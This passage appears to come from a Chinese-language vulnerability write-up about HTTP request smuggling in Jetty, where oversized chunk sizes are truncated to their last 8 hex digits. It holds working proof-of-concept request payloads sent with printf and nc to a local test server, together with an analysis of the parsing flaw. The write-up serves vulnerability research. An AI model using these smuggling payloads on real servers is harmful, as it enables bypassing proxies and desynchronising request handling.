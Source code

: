 我们利用以下代码发送请求：

```bash
printf 'POST /?test=4973 HTTP/1.1\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Content-Type: application/x-www-form-urlencoded\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'100000000\r\n'\
'\r\n'\
'POST /?test=4974 HTTP/1.1\r\n'\
'Content-Length: 5\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8994|grep "HTTP/1.1"
```

然后我们可以得到两个 200 响应可是按照 chunk 的标准，虽然第二个部分看起来是一个请求，但是实际上应该被算在 chunk data 当中，而问题就在这，jetty 返回了两个请求，把 100000000 当作了 0，也就是 chunk end 部分，所以就出现了两个请求的原因。

我们可以再进行一些尝试：

```bash
printf 'POST /?test=4975 HTTP/1.1\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Content-Type: application/x-www-form-urlencoded\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'1ff00000008\r\n'\
'abcdefgh\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'POST /?test=4976 HTTP/1.1\r\n'\
'Content-Length: 5\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8994|grep "HTTP/1.1"
```

这里我们依然得到了两个 200 响应，也就是第一个 chunk size 1ff00000008 被 jetty 截断成了 8，也就是 chunk data 部分只有`abcdefgh`，所以就返回了两个响应。

与 Apache CVE-2015-3183 类似，jetty 只会取 chunk size 的最后 8 个字节：

```bash
ffffffffffff00000000\r\n
            ^^^^^^^^
            00000000 => size 0

1ff00000008\r\n
   ^^^^^^^^
   00000008 => size 8
```
